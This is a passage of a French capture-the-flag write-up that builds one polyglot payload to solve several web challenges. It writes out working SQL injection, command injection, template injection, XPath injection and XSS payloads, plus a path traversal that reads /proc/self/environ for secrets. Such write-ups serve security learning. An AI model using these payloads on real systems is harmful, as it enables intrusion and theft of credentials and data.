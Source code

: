 ```c
' UNION SELECT 1,2,flag FROM flag--;env;#' UNION SELECT 1,2,flag FROM flag-- {system('env')}{*{% if '1'==1 %}{{['env']|filter('system')}}{% endif %}{{lipsum.__globals__.os.environ.FLAG}}*} <%= ENV['FLAG'] %>/../../proc/self/environ
```

Parfait cela fonctionne bien !

### Xpath

Jusqu'ici je n'ai donc utilisé que des simples quotes, une aubaine pour notre Xpah qui est le seul challenge où les doubles quotes sont absolument nécessaires !
Et donc, il ne nous posera aucun problème de l'ajouter un peu où l'on veut. Dans mon cas je l'ajoute juste après les injections SQL, il est important que la payload vienne après la 2ème injection sinon les doubles quotes seront interprétées dans celle-ci.

```c
' UNION SELECT 1,2,flag FROM flag--;env;#' UNION SELECT 1,2,flag FROM flag-- "]|//user[1=1]/password/text()|//user[1="{system('env')}{*{% if '1'==1 %}{{['env']|filter('system')}}{% endif %}{{lipsum.__globals__.os.environ.FLAG}}*} <%= ENV['FLAG'] %>/../../../../../../proc/self/environ
```

Notre payload résoud un challenge de plus.

### Ajouter les XSS ?

À ce stade, j'ai déjà plus de la moitié des challenges qui passent et pourtant je n'ai pas intégré les 2 premiers : les XSS. Mais il y a une bonne raison à cela, c'est que ça m'a pris un peu de temps à trouver ce que je pouvait faire.

Dans un premier temps il faut trouver une payload qui fasse fonctionner les 2 XSS ensemble (pas très compliqué), mais ensuite il faut trouver comment les intégrer avec les SQLi, et ça, ça pose problème. Mais pour mieux montrer pourquoi, on va commencer par la 1ère étape.

#### D'une payload, deux XSS

Comme dit plus haut, l'assemblage des 2 XSS n'est pas des plus compliqués. On peut par exemple faire ceci 🎃
```javascript
';alert(flag)/*<script>alert(flag)</script>
```
Cependant cette payload utilise plusieurs `/` (donc + 6 caractères dans la Path Traversal). On va donc passer la 1ère XSS en 1 seule balise et inverser l'ordre.

```javascript
<img src=x onerror=alert(flag)>';alert(flag)/*
```

En espérant que cela ne me bloque pas

#### Les SQLi

Mince, me voilà bloqué !

Si je prend à part les 2 injections SQL j'ai ceci :
```sql
' UNION SELECT 1,2,flag FROM flag--' UNION SELECT 1,2,flag FROM flag
```
